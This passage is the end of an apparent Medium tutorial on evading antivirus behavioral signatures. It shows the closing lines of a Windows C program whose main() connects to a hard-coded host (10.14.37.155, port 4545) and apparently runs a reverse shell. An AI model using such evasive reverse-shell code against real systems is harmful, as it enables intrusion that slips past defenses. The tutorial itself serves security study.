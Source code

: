 > **WaitForSingleObject(pinfo.hProcess, INFINITE);**

> **CloseHandle(pinfo.hProcess);**

> **CloseHandle(pinfo.hThread);**

> **}**

> **}**

> **int main(int argc, char \*\*argv) {**

> **if (argc == 3) {**

> **int port = atoi(argv\[2]);**

> **runn(argv\[1], port);**

> **}**

> **else {**

> **char host\[] = “10.14.37.155”;**

> **int port = 4545;**

> **runn(host, port);**

> **}**

> **return 0;**

> **}**

By [Moataz Osama](https://medium.com/@mezo512) on [January 25, 2025](https://medium.com/p/7349dfef6851).

[Canonical link](https://medium.com/@mezo512/signature-evasion-techniques-part-2-behavioral-signatures-7349dfef6851)

Exported from [Medium](https://medium.com) on August 26, 2025.